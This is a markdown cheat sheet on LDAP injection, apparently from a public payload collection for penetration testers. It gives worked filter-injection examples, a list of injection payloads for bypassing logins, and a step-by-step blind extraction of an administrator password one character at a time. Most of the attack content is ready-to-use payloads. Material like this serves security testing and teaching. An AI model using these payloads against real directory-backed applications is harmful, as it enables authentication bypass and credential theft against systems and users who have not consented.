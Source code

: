 # LDAP injection
LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Exploitation
Example 1.
```
user  = *)(uid=*))(|(uid=*
pass  = password
query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"
```

Example 2
```
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```


## Payloads
```
*
*)(&
*))%00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation
We can extract using a bypass login
```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Thanks to
* [OWASP LDAP Injection](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
